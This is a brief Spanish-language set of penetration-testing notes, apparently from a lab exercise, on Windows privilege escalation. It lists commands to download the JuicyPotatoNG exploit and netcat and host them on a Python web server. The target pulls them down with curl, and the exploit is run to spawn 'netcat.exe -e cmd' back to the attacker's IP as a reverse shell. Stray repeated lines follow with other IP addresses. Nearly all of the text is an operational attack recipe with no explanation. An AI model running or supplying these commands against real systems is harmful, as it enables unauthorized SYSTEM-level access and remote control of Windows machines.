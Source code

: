 
# ESCALADA
```shell
#NOS DESCARGAMOS EL RECURSO
wget https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip
unzip JuicyPotatoNG.zip
mv JuicyPotatoNG.exe pivesc.exe

#NOS TRAEMOS EL NC
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVIDOR CON PYTHON
python3 -m http.server 80

#NOS LO TRANSFERIMOS JUNTO AL NETCAT
curl http://192.168.45.189/pivesc.exe -o pivesc.exe
curl http://192.168.45.189/nc.exe -o netcat.exe

#LO EJECUTAMOS
nc -nlvp 446
.\pivesc.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\netcat.exe -e cmd 192.168.45.189 446" -l 446
```

.\pivesc.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\windows.old\Windows\System32\netcat.exe -e cmd 10.10.208.147 1234" -l 1234

curl http://10.10.208.147:2341/privesc.exe -o privesc.exe

curl http://192.168.45.189/pivesc.exe -o pivesc.exe